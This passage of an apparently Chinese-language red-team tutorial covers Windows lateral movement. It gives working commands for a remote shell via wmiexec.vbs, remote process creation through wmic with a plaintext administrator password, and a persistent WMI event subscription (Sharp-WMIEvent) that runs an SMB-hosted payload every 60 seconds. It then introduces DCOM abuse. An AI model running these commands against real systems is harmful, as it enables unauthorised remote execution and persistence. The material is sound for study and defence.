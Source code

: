```plain
cscript //nologo wmiexec.vbs /shell 192.168.1.131 administrator 123qwe@
```

#### [自带 WMIC 明文传递 无回显](#toc_wmic)

```plain
wmic /node:192.168.1.131 /user:administrator /password:123qwe@ process call create "cmd.exe /c ipconfig >C:\1.txt"
```

### [WMI 事件订阅的利用](#toc_wmi_1)

WMI 提供了强大的事件处理系统，几乎可以用于操作系统上发生的任何事件做出相应。

当创建某进程时，通过 WMI 事件订阅器来执行预先设置的脚本。  
其中触发事件的具体条件被称为“**事件过滤器**”（Event Filter），如用户登录、新进程创建等；对指定事件发生做出相应的称为“**事件消费者**”（Event Consumer），包括一系列具体的操作，如运行脚本、记录日志、发送邮件等。  
在部署事件订阅时，需要分别构建 Filter 和 Consumer 两部分，并将两者绑定在一起。

所有的事件过滤器都被存储在一个**Root\\subscription:\_\_EventFiilter**对象的实例，可以通过创建**\_\_EventFilter 对象**实例来部署事件过滤器。事件消费者是基于**ROOT\\subscription:\_\_EventConsumer 系统类**派生来的类。

系统提供了常用的标准事件消费类

```plain
LogFileEventConsumer    # 将事件数据写入指定的日志文件 
ActiveScriptEventConsumer  # 执行嵌入的 VBScript 或 JavaScript 
NTEventLogEventConsumer      # 创建一个包含事件数据的事件日志条目 
SMTPEventConsumer            # 发送一封包含事件数据的电子邮件 
CommandLineEventConsumer     # 执行指定的系统命令
```

**Sharp-WMIEvent**

[https://github.com/wh0Nsq/Sharp-WMIEvent](https://github.com/wh0Nsq/Sharp-WMIEvent)

在远程主机上部署一个随即命名的永久事件订阅，并每隔 60s 执行以此 SMB 共享中的攻击载荷

```plain
Sharp-WMIEvent -Trigger Interval -IntervalPeriod 60 -ComputerName 192.168.1.131 -Domain uf9n1x.com -Username Administrator -Password 123qwe@
```

# [DCOM 的利用](#toc_dcom)

COM（Component Object Model，组件对象模型）是微软的一套软件组成的二进制接口标准，使得跨编程语言的进程间通信、动态对象创建成为可能。COM 指定了一个对象模型和编程要求，使 COM 对象能够与其他对象交互。这些对象可以在单个进程中，也可以在其它进程中，甚至可以在远程计算机中。在 Windows 中，每个 COM 对象都由唯一的 128 位的二进制标识符标识，即 GUID。

DCOM（Distracted Component Model，分布式组件对象模型）是基于 COM 的一系列概念和程序接口，支持不同机器上的组件间通信。利用 DCOM，客户端程序对象可以请求来自网络中另一台计算机上的服务器程序对象。

部分 DCOM 组件公开的接口中可能包含不安全的方法。执行以下命令，可以列出计算机上所有的 DCOM 程序组件

```plain
Get-CimInstance Win32_DCOMApplication
```
